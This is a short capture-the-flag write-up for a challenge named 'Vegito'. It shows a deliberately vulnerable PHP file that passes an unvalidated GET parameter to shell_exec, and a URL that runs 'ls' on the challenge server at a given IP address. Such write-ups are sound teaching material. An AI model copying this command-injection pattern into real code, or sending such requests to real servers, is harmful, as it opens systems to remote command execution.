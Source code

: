 # Vegito
There's web link provided and as you click that , you can see there's a php file
```php
<?php
    highlight_file(__FILE__);
    ini_set('display_errors', 0);

    $cmd = $_GET['cmd'];
    parse_str($_GET['parse'], $a);

    echo (strlen($cmd) < 3) ? @shell_exec($cmd) : $action($args, '');
?>
```

# Solution:
Now as I read the code , I understood that cmd is taken parsed and executed in shell , which means it should be a command which is of length < 3 and executed in shell. I tried cd , cd.. and that's when ls worked
```
http://174.129.132.216:5010/w7?cmd=ls
```
![image](https://github.com/LAVANYA-PIDIKITI/CBL-CTF_Writeup/assets/98797256/29f37280-b381-42a5-af57-225fa3fa82e5)

